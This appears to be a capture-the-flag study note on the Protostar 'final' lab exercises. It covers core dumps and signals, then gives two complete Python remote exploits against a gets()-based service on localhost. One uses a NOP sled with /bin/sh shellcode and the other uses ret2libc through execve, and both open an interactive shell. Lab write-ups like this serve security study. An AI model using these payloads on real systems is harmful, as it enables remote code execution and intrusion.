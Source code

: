 ### 0x1C Linux Signals and Core Dumps

- Introduces what are core dump files (files which are generated as a result of a program unexpectedly terminated and record the state of the memory during the crash)

- Introduces what are Linux Signals (some of which you already know such as SIGINT when you run CTRL-C on gdb)

- How to debug final0, final1, final2:

    `gdb /path/to/binary /path/to/core/file`

### 0x1D

- For this exercise, we are to perform a remote BoF exploit given tht the program uses the unsafe gets() function to receive input for the username.

- Take note that for net0 - net1, the way that the program receives input is via fread(), read(), and fgets() which are all generally safe functions whereas for this challenge, we are using gets(), and gets() reads input till it receives the "\n" nextline character. Hence, when we are sending our input, we need to append all our inputs with "\n"

- Answer (using normal BoF):

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    eip = struct.pack("I", 0xbffffc60+10)
    nopsled = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
    s.send(payload + "\n")
    #s.send("id")
    #data = s.recv(2048)
    #print "Received: ", data
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

- Answer (using ret2libc)

    ```
    import socket
    import struct
    import time
    import telnetlib
    
    HOST="127.0.0.1"
    PORT=2995
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    _SYSTEM = struct.pack("I", 0xb7ecffb0)
    _EXIT   = struct.pack("I", 0xb7ec60c0)
    _BIN_SH = struct.pack("I", 0xb7fb63bf)
    _EXECVE = struct.pack("I", 0x08048c0c)
    
    # payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _SYSTEM + _EXIT + _BIN_SH # system() ret2libc
    payload = "A" * 512 + "\x00" + "aaabbbbccccddddeeee" + _EXECVE + _EXIT + _BIN_SH + "\x00" * 4 + "\x00" * 4 # execve() ret2libc
    s.send(payload + "\n")
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    ```

    - For ret2libc using execve, you will need to find the address of the execve function using `(gdb) info functions @plt` and you will have to add 2 * `"\x00" * 4` to represent the gid and uid parameter when running execve("/bin/sh", 0, 0) (see documentation/manual for more information)


### References

https://wiki.archlinux.org/title/Core_dump

https://exploit.education/protostar/

https://www.ibm.com/docs/en/zos/2.2.0?topic=functions-gets-read-string 

https://www.educative.io/answers/how-to-use-the-fgets-function-in-c

https://man7.org/linux/man-pages/man2/read.2.html

https://www.ibm.com/docs/en/i/7.4?topic=functions-fread-read-items


